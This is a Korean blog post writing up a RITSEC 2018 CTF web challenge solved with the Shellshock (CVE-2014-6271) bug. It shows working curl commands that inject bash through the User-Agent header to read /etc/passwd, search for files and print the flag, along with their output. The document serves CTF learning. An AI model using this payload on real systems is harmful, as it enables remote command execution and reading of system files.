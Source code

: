 ```yaml
---
layout: post
title: ! "[RITSEC 2018] What a cute dog! Write up"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - CTF
  - RITSEC2018
---
```


주말에 잠깐 짬이 나서 RITSEC CTF에 참여했다.  

웹 몇개랑 암호 한개 정도 풀었는데 그 중에 한 문제에 대한 Write Up을 써 두려고 한다.  

<!--more-->

문제 정보는 다음과 같다.  

```
This dog is shockingly cute!

fun.ritsec.club:8008

Author: sandw1ch
```

문제에 접속하면 아래와 같은 화면이 보인다.  

![](/images/CTF/RITSEC2018/whatacutedog/whatacutedog_01.png)

아무것도 없어 보이는데, `페이지 소스보기`를 하면 `iframe`으로 `/cgi-bin/stats`를 호출하는 것을 알 수 있다.  

```html

<html>

	<head>

    <style>
    body {
        background-image: url("https://wallpaper-house.com/data/out/6/wallpaper2you_129872.jpg");
    }
    </style>

	<meta name="generator" content="vi2html">
	</head>
	<body>
	</br>
</br>
Has Anyone Really Been Far Even as Decided to Use Even Go Want to do Look More Like?</br>
</br>
Wow, this dog is shockingly cute!</br>
	</br>
Stats:
	</br>
	<iframe frameborder=0 width=800 height=600 src="/cgi-bin/stats"></iframe>
	</body>
</html>
```

해당 경로로 들어가면 아까 봤던 두 줄의 정보만 출력될 뿐, 아무것도 나오는 것이 없다.  

```
Sun Nov 18 14:11:01 UTC 2018
14:11:01 up 1 day, 21:58, 0 users, load average: 0.11, 0.31, 0.29
```

뭘까 잠시 고민하다가, 아무 의미 없는 페이지에 뜬금포로 `/cgi-bin/stats`로 들어 가 어떤 정보를 출력하는게 의심스러워서, 이를 가지고 문제를 푸는 것이 아닌가 생각 해 보았다.  

그래서 구글에 `cgi-bin/stats exploit`라고 검색 해 보았는데 깃허브에서 이와 관련 된 `CVE`를 찾을 수 있었다.  

[CVE-2014-6271](https://github.com/hmlio/vaas-cve-2014-6271)

해당 취약점을 가지고 있는 `Debian Linux system`에서 `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats`와 같은 코드를 사용 해 임의의 코드를 실행할 수 있다.  

이에 위의 코드를 그대로 문제 서버에 적용 해 보았다.  

그랬더니 아래와 같이 `/etc/passwd`가 출력 된 것을 확인할 수 있었다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://fun.ritsec.club:8008/cgi-bin/stats

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

그래서 이를 가지고 플래그의 위치를 찾기 위해 `find` 명령어를 실행하도록 아래와 같이 테스트 해 보았다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name "*flag*"'" http://fun.ritsec.club:8008//cgi-bin/stats

/proc/sys/kernel/acpi_video_flags
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/kpageflags
/usr/lib/perl/5.14.2/auto/POSIX/SigAction/flags.al
/usr/lib/perl/5.14.2/bits/waitflags.ph
/opt/flag.txt
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/module/scsi_mod/parameters/default_dev_flags
```

그랬더니 `/opt/flag.txt`라는 파일을 찾을 수 있었다.  

그래서 이번에는 `/opt/flag.txt`를 읽도록 아래와 같이 실행 해 보았더니 플래그를 찾을 수 있었다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /opt/flag.txt'" http://fun.ritsec.club:8008//cgi-bin/stats

RITSEC{sh3ll_sh0cked_w0wz3rs}
```

```
RITSEC{sh3ll_sh0cked_w0wz3rs}
```